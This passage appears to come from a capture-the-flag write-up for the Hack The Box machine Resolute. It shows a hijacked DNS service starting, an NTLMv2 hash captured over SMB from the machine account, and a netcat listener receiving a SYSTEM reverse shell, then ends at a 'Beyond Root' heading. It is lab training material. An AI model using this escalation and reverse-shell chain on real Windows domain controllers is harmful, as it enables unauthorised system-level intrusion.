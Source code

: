     SERVICE_NAME: dns
            TYPE               : 10  WIN32_OWN_PROCESS
            STATE              : 2  START_PENDING
                                    (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
            WIN32_EXIT_CODE    : 0  (0x0)
            SERVICE_EXIT_CODE  : 0  (0x0)
            CHECKPOINT         : 0x0
            WAIT_HINT          : 0x7d0
            PID                : 2644
            FLAGS              :



First I'll see the connection on the SMB server:



    [*] Incoming connection (10.10.10.169,50159)
    [*] AUTHENTICATE_MESSAGE (MEGABANK\RESOLUTE$,RESOLUTE)
    [*] User RESOLUTE\RESOLUTE$ authenticated successfully
    [*] RESOLUTE$::MEGABANK:4141414141414141:fb2d88a95f9cf568c546d27ebe4f4442:010100000000000000a96d1a1fced50122c6db1ce67cdf66000000000100100075006300660071006d006e00520061000300100075006300660071006d006e00520061000200100068006b007200
    490048006100620041000400100068006b007200490048006100620041000700080000a96d1a1fced50106000400020000000800300030000000000000000000000000400000f4655d8aeeeb9ce2a98b0b270af2bf358acccfb17c8276e41e29b51b4ecddc1a0a001000000000000000000000
    000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310031000000000000000000



Then I'll get a shell:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.169.
    Ncat: Connection from 10.10.10.169:50160.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system



And from there, grab `root.txt`:



    C:\Users\Administrator\Desktop>type root.txt
    e1d94876************************



## Beyond Root - PowerShell Transcript
